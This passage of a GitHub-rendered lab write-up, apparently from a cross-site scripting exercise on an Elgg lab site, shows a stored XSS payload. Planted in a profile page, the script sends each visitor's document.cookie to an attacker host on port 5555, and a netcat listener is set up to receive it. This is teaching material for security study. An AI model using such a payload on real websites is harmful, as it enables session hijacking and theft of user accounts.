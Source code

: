     <span class="pl-s">"&lt;img src=http://10.0.2.15:5555?c="</span> <span class="pl-c1">+</span> <span class="pl-en">escape</span><span class="pl-kos">(</span><span class="pl-smi">document</span><span class="pl-kos">.</span><span class="pl-c1">cookie</span><span class="pl-kos">)</span> <span class="pl-c1">+</span> <span class="pl-s">" &gt;"</span>
  <span class="pl-kos">)</span><span class="pl-kos">;</span>
<span class="pl-kos">&lt;/</span><span class="pl-ent">script</span><span class="pl-kos">&gt;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="<script>
  document.write(
    &quot;<img src=http://10.0.2.15:5555?c=&quot; + escape(document.cookie) + &quot; >&quot;
  );
</script>
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">It will send an HTTP GET request to the port 5555 on the attacker with <code>document.cookie</code> whenever the profile page is accessed by any victim user.</p>
<p dir="auto">Then listen on the port 5555 on the attacker machine:</p>
<div class="snippet-clipboard-content position-relative overflow-auto"><pre><code>nc -l 5555 -v
</code></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="nc -l 5555 -v
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<p dir="auto">Once visiting the profile page ( <a href="http://www.xsslabelgg.com/profile/alice" rel="nofollow">http://www.xsslabelgg.com/profile/alice</a>) from VM <code>10.0.2.4</code>, then it will appear on the attacker:</p>
<p>Screenshoot in cross-site-scripting Folder</p>